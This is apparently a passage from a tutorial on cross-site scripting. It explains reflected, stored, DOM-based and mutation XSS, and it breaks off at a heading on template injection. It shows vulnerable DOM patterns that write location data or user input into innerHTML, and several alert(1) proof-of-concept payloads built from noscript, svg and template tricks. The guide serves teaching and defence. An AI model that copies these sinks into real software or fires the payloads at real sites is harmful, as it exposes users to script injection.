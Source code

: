 ### Reflected XSS

This occurs when user input is immediately reflected in the server's response, often in a query string or form field, making it easy for attackers to inject malicious scripts.

### Persistent XSS

Here, malicious scripts are stored on the server and then served to users, such as through user-generated content on forums or blogs.

### DOM-based XSS

DOM-based XSS attacks are executed purely on the client-side. The malicious input is embedded in the page’s DOM and executed without server interaction:

```javascript
document.write(location.hash);
```

**2025 Advanced DOM XSS:**

```javascript
// Shadow DOM manipulation
document.querySelector('custom-element').shadowRoot.innerHTML = payload;

// Web Components vulnerability
customElements.define('xss-element', class extends HTMLElement {
  connectedCallback() {
    this.innerHTML = location.search.slice(1);
  }
});

// Modern DOM APIs
document.querySelector('#target').insertAdjacentHTML('beforeend', userInput);
```

### Mutation XSS (mXSS) - 2025

**New Attack Vector:** mXSS exploits browser parsing inconsistencies and HTML sanitization flaws:

```html
<noscript><p title="</noscript><img src=x onerror=alert(1)>">
```

```html
<svg><foreignObject><p><iframe src="javascript:alert(1)"></iframe></p></foreignObject></svg>
```

```html
<!-- Exploiting innerHTML vs outerHTML differences -->
<template><script>alert(1)</script></template>
```

### Client-Side Template Injection - 2025

**Framework-Specific Attacks:**
